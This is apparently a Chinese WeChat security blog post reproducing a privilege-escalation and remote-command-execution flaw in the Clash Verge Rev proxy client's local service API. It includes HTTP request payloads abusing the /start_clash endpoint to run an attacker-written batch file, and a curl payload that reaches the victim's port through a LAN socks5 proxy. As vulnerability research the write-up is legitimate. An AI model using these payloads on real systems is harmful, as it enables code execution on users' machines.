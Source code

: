 #  Clash Verge rev提权与命令执行分析   
 sec0nd安全   2025-05-09 05:46  
  
扫码领资料  
  
获网安教程  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrpvQG1VKMy1AQ1oVvUSeZYhLRYCeiaa3KSFkibg5xRjLlkwfIe7loMVfGuINInDQTVa4BibicW0iaTsKw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
# 本文由掌控安全学院 -  c's 投稿  
  
**来****Track安全社区投稿~**  
  
**千元稿费！还有保底奖励~（ https://bbs.zkaq.cn）**  
# 一、基本信息  
### 1.1、漏洞背景  
  
**复现时间：**  
20250429  
  
**背景：**  
  
https://github.com/clash-verge-rev/clash-verge-rev/issues/3428  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrov6OFlhDG1jCowicDFbLNyUgqMfbAL8PicfxiclaE8wdKicibjlic3w3rF7MaviajmMyr3WAicic5d35polQ/640?wx_fmt=png&from=appmsg "")  
  
1.2、clash生态  
  
1. Clash内核●Clash是一个开源、跨平台的规则分流代理内核，用Go语言开发，核心功能是多协议代理（如VMess、VLESS、Trojan、Shadowsocks、Socks5、HTTP等）+强大的规则分流。  
●本质：命令行程序，无GUI，负责流量抓取、转发、分流、协议转换等。●配置：通过YAML文件配置，支持多节点、多规则、多策略组。●功能：分流、UDP/IPv6支持、透明代理、DNS伪装、测速、订阅等。2. Clash GUI生态●Clash for Windows、ClashX（Mac）、Clash Verge/Verge Rev、Meta、Meta for Android等，都是基于Clash内核的图形界面前端，用来简化配置、管理和可视化操作。1.3、Clash Verge Rev是什么1. Clash Verge Rev简介●Clash Verge Rev是一款基于Clash内核的跨平台GUI客户端。●Verge Rev=Verge的分支/二开版本，通常会有更多新特性、优化和自定义功能。●支持Windows、MacOS、Linux等，界面现代、交互友好。2. 架构●前端（GUI）：负责用户交互、配置管理、节点展示、规则编辑、流量统计等。●后端（内核）：集成Clash核心程序，负责实际的流量抓取、协议解析与分流。●通信：前端通过API/本地端口与Clash内核通信（如RESTful API、WebSocket）。1.4、clash Verge Rev的安全性与架构●GUI和内核分离：理论上GUI和内核可以独立升级，安全性更好。●开源可审计：代码开源，安全人员可自行审计有无后门。●GUI前端：用户操作界面●clash-verge-service：本地服务进程，管理内核和提供接口●Clash内核：真正的网络代理引擎1.5、监听端口clash系列都差不多，常见clash的配置文件：clash-verge-service监听端口：小结一下，端口号作用进程7890、7891代理流量端口（HTTP/SOCKS5）clash-core/meta9090内核 API（external-controller）clash-core/meta33211clash-verge-service 的本地API端口clash-verge-service数据流向：二、漏洞1、提权详细请求数据包，查看日志文件，提权成功辅助测试go程序，代码，代码入口，写入配置，  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrov6OFlhDG1jCowicDFbLNy1u1YsJ2sx4e13crbS5PLxyA4UEOOIm9ia83ibqePiauSynmtk96rU3LNQ/640?wx_fmt=png&from=appmsg "")  
这里可以实现任意文件写入，配合多种姿势rce  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrov6OFlhDG1jCowicDFbLNyjUBzQyVzwYdPY8o2AAmtwG2waIiaptEX0DZJQRxiadBHspwldvyZWDbw/640?wx_fmt=png&from=appmsg "")  
针对mac和非mac文件都可以，  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrov6OFlhDG1jCowicDFbLNyLxkPOnV2ibGYUhX9fIiagficGP8LnuL3uiaEszNV2jX8lUvOy2O3hrhWBQ/640?wx_fmt=png&from=appmsg "")  
2、转换系统rce复现，代码已经写得很详细了。由于参数不完全可控，RCE 部分会复杂一些。可以考虑这样处理：先发送一个请求，把要执行的命令写入 bat 文件，再通过第二个请求调用这个文件即可。该思路可以用于win和mac。详细请求数据包，写入成功  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrov6OFlhDG1jCowicDFbLNy2cUxY77DTgvVM8fkzicAaa84eGic0g7jHtxibmh8M1CcW5NBfLBMdHq5g/640?wx_fmt=png&from=appmsg "")  
第二次请求，  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrov6OFlhDG1jCowicDFbLNyM0VliaEZWm4Ac4E3ptCy8OT2adYr1a90iaSB88bfXS4ju3GGtHThibuyw/640?wx_fmt=png&from=appmsg "")  
详细请求数据包POST /start_clash HTTP/1.1Host: 127.0.0.1:33211Content-Type: application/json{"bin_path": "d:/clash.bat","config_dir": ".","config_file": ".","log_file": "d:/clash.log"}3、进一步利用这个漏洞的影响范围可以更广。特别是当用户在与攻击者相同的局域网环境中开启了局域网功能时，攻击者可以利用clash的代理机制发起直接攻击。payload：```
curl -x socks5://192.168.xx.xx:xx -X POST "http://127.0.0.1:33211/start_clash" \
-H "Content-Type: application/json" \
-d '{
  "bin_path": "xx",
  "config_dir": "xx",
  "config_file": "xx",
  "log_file": "xx"
}'
```  
进一步扩大危害的可能？简单来说，这个漏洞可以集成到蜜罐中，当“攻击者”用受影响的clash访问蜜罐时，蜜罐可以自动发起前述两个请求，实现对攻击者的反制。但是经测试未成功，原因是发起JSON格式的POST请求需要CORS支持，这个方案目前行不通。  
申明：本公众号所分享内容仅用于网络安全技术讨论，切勿用于违法途径，  
  
所有渗透都需获取授权，违者后果自行承担，与本号及作者无关，请谨记守法.  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/BwqHlJ29vcqJvF3Qicdr3GR5xnNYic4wHWaCD3pqD9SSJ3YMhuahjm3anU6mlEJaepA8qOwm3C4GVIETQZT6uHGQ/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
**没看够~？欢迎关注！**  
  
  
  
**分享本文到朋友圈，可以凭截图找老师领取**  
  
上千**教程+工具+交流群+靶场账号**  
哦  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrpvQG1VKMy1AQ1oVvUSeZYhLRYCeiaa3KSFkibg5xRjLlkwfIe7loMVfGuINInDQTVa4BibicW0iaTsKw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
******分享后扫码加我！**  
  
  
**回顾往期内容**  
  
[零基础学黑客，该怎么学？](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247487576&idx=1&sn=3852f2221f6d1a492b94939f5f398034&chksm=fa686929cd1fe03fcb6d14a5a9d86c2ed750b3617bd55ad73134bd6d1397cc3ccf4a1b822bd4&scene=21#wechat_redirect)  
  
  
[网络安全人员必考的几本证书！](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247520349&idx=1&sn=41b1bcd357e4178ba478e164ae531626&chksm=fa6be92ccd1c603af2d9100348600db5ed5a2284e82fd2b370e00b1138731b3cac5f83a3a542&scene=21#wechat_redirect)  
  
  
[文库｜内网神器cs4.0使用说明书](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247519540&idx=1&sn=e8246a12895a32b4fc2909a0874faac2&chksm=fa6bf445cd1c7d53a207200289fe15a8518cd1eb0cc18535222ea01ac51c3e22706f63f20251&scene=21#wechat_redirect)  
  
  
[记某地级市护网的攻防演练行动](https://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247543747&idx=1&sn=c7745ecb8b33401ae317c295bed41cc8&token=74838194&lang=zh_CN&scene=21#wechat_redirect)  
  
  
  
[手把手教你CNVD漏洞挖掘 + 资产收集](https://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247542576&idx=1&sn=d9f419d7a632390d52591ec0a5f4ba01&token=74838194&lang=zh_CN&scene=21#wechat_redirect)  
  
  
[【精选】SRC快速入门+上分小秘籍+实战指南](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247512593&idx=1&sn=24c8e51745added4f81aa1e337fc8a1a&chksm=fa6bcb60cd1c4276d9d21ebaa7cb4c0c8c562e54fe8742c87e62343c00a1283c9eb3ea1c67dc&scene=21#wechat_redirect)  
  
##     代理池工具撰写 | 只有无尽的跳转，没有封禁的IP！  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/BwqHlJ29vcqJvF3Qicdr3GR5xnNYic4wHWaCD3pqD9SSJ3YMhuahjm3anU6mlEJaepA8qOwm3C4GVIETQZT6uHGQ/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
点赞+在看支持一下吧~感谢看官老爷~   
  
你的点赞是我更新的动力  
  
